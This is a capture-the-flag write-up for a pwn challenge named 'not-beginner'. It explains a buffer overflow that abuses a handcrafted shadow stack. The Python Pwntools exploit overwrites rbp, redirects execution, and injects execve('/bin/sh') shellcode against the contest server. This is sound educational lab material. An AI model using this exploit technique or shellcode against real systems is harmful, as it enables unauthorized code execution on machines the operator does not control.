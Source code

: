 ## Writing the exploit

I used Python and Pwntools. First part, override the `rbp` variable with the buffer overflow so we write exactly where the return address is.

`.bss` starts at 0x00600234, which is where the handcrafted stack is. The read function will decrement the address by 0x100 so we have to add that to our address: 0x00600334. Finally, the `__stack_depth` value. In the vuln function, the main function only called the vuln one so the value would be 1. 

It multiplies the variable by 8 (`mov qword [__stack_shadow + rcx * 8], %%return_address`) so we have to add 8 * 1 to the address and that will result in: `0x0060033c`

``` python
from pwn import *

#p = process('./chall')
p = remote("pwn.ctf.zer0pts.com", 9011)
offset = b'A' * 0x100
p.clean()
first_exploit = offset + p64(0x0060033c)
p.sendline(first_exploit)
```

Now, let's write the address of the vuln function. We have to avoid the `enter 0x100, 0` because it will break our `rbp` so we will use the next address: `0x00400180`

```python
p.recv()
second_exploit = p64(0x00400180)
p.sendline(second_exploit)
p.recv()
```

And finally the last part. We will put the shellcode on 0x600740. We are writing on 0x0060023c so we need an offset of 0x504 (minus the 8 bytes from the address of the shellcode):

```python
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
offset2 = b'A' * (0x4fc)
third_exploit = p64(0x600740) + offset2 + shellcode
p.sendline(third_exploit)
p.interactive()
```

And we got it!

![Sections](/./assets/imgs/not-beginner-solved.png)
